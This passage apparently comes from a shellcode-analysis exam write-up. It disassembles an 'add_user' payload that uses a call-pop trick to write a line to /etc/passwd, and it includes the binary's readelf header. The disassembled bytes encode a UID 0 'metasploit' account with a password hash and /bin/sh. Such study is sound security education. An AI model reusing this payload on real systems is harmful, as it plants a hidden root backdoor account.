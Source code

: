 Now comes the juciy part, modifying `/etc/passwd`. Everything after address `00000026` looks like gibberish, and the fact that there is a `call` instruction makes me believe that this is a call-pop technique that we have seen in the previous example. For this last part, I will use GDB to analyse how the program adds a new user to the system.

```asm
00000025  93                xchg eax,ebx        ; change the value in eax to ebx and vice verca. ebx now contains the FD
00000026  E828000000        call dword 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
```

The binary is stripped from any debug symbols, but we can use `readelf` to get the entrypoint of the program. With this information we can debug the program.

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ readelf -h add_user
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x8048054
  Start of program headers:          52 (bytes into file)
  Start of section headers:          0 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           0 (bytes)
  Number of section headers:         0
  Section header string table index: 0
```
